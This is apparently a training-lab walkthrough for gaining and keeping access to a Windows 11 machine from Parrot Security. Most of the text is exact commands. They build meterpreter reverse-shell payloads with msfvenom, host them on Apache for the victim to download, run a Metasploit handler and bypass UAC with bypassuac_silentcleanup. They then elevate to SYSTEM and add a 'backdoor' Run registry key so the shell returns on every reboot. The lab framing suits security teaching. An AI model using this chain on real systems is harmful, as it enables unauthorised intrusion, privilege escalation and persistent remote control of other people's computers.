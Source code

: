 
to switch to the **Parrot Security** machine and login with **attacker/toor**

Open a **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**). Run **cd** command to jump to the root directory

Run the command **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe** to generate **Test.exe** payload

Now, we will create payload that needs to be uploaded into the Run Registry of **Windows 11** machine. Run the following command:

**msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=4444 -f exe > /home/attacker/Desktop/registry.exe**

In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access permission. So, we will use the same directory or shared folder (share) to share exploit.exe with the victim machine.

To create a new directory to share the **Test.exe** and **registry.exe** files with the target machine and provide the permissions, use the below commands:

- Run **mkdir /var/www/html/share** command to create a shared folder
- Run **chmod -R 755 /var/www/html/share** command
- Run **chown -R www-data:www-data /var/www/html/share** command

Copy the payload into the shared folder by executing **cp /home/attacker/Desktop/Test.exe /var/www/html/share/** and **cp /home/attacker/Desktop/registry.exe /var/www/html/share/** commands

Start the Apache server by running **service apache2 start** command

Run **msfconsole** command to launch Metasploit Framework

  
In Metasploit, type **use exploit/multi/handler** and press **Enter**

Now, type **set payload windows/meterpreter/reverse_tcp** and press **Enter**

Type **set lhost 10.10.1.13** and press **Enter** to set lhost

Type **set lport 444** and press **Enter** to set lport

Now, type **run** in the Metasploit console and press **Enter**

o switch to the **Windows 11** machine, click [Ctrl+Alt+Delete](https://labclient.labondemand.com/Instructions/b23f3920-d498-4113-9bbb-12cd16f9c53f#) to activate the machine and login

Open any web browser (here, **Mozilla Firefox**) go to **http://10.10.1.13/share**. As soon as you press enter, it will display the shared folder contents

Click on **Test.exe** and **registry.exe** to download the files

Navigate to **Downloads** and double-click the **Test.exe** file

Leave the **Windows 11** machine running and click [Parrot Security](https://labclient.labondemand.com/Instructions/b23f3920-d498-4113-9bbb-12cd16f9c53f#) to switch to the **Parrot Security** machine

The meterpreter session has successfully been opened

Type **getuid** and press **Enter** to display current user ID

Now, we shall try to bypass the User Account Control setting that is blocking you from gaining unrestricted access to the machine

Type **background** and press **Enter**, to background the current session
In this task, we will bypass Windows UAC protection via SilentCleanup task present in Windows Task Scheduler. It is present in Metasploit as a bypassuac_silentcleanup exploit

In the terminal window, type **use exploit/windows/local/bypassuac_silentcleanup** and press **Enter**

Now, type **set session 1** and press **Enter**
  
Type **show options** in the meterpreter console and press **Enter**.

To set the **LHOST** option, type **set LHOST 10.10.1.13** and press **Enter**

To set the **TARGET** option, type **set TARGET 0** and press **Enter** (here, 0 indicates nothing, but the Exploit Target ID

Type **exploit** and press **Enter** to begin the exploit on **Windows 11** machine
If you get **Exploit completed, but no session was created** message without any session, type **exploit** in the console again and press **Enter**

The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine

Type **getsystem -t 1** and press **Enter** to elevate privileges

Now, type **getuid** and press **Enter**. The Meterpreter session is now running with system privileges

Now, to add the malicious file into the **Windows 11** machine's registry, open a shell by running the **shell** command

In the elevated shell, type **reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"** and press **Enter**

Once the command is successfully executed, open another terminal window with root privileges and run **msfconsole** command

In Metasploit, type **use exploit/multi/handler** and press **Enter**

Now, type **set payload windows/meterpreter/reverse_tcp** and press **Enter**

Type **set lhost 10.10.1.13** and press **Enter** to set lhost

Type **set lport 4444** and press **Enter** to set lport

Now, type **exploit** to start the exploitation

to switch to **Windows 11** machine login to **Admin** account and restart the machine so that the malicious file that is placed in the Run Registry is executed

to switch to the **Parrot Security** machine and you can see that the meterpreter session is opened

Type **getuid** and press **Enter**, we can see that we have opened a reverse shell with admin privileges

Whenever the Admin restarts the system, a reverse shell is opened to the attacker until the payload is detected by the administrator

Thus, attacker can maintain persistence on the target machine using Run Registry keys



